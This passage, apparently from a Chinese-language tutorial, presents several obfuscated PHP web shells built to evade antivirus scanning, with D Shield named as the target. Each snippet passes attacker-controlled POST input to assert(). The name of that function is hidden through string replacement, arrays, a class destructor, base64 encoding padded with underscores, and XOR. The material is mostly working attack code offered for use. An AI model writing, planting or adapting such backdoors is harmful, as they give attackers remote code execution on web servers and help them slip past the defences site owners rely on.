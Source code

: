 ```
<?php
$a = substr_replace("assexx","rt",4);
$b=[''=>$a($_POST['q'])];
?>
```

多维数组

```
<?php
$b = substr_replace("assexx","rt",4);
$a = array($arrayName = array('a' => $b($_POST['q'])));
?>
```

说到类肯定要搭配上魔术方法比如 `__destruct()`，`__construct()`  
直接上代码

```
<?php 

class me
{
  public $a = '';
  function __destruct(){

    assert("$this->a");
  }
}

$b = new me;
$b->a = $_POST['x'];

?>
```

用类把函数包裹, D 盾对类查杀较弱

用 php 的编码函数，或者用异或等等  
简单的 base64_decode, 其中因为他的正则匹配可以加入一些下划线干扰杀软

```
<?php
$a = base64_decode("YXNz+ZX____J____0");
$a($_POST[x]);
?>
```

异或

```
<?php
$a= ("!"^"@").'ssert';
$a($_POST[x]);
?>
```
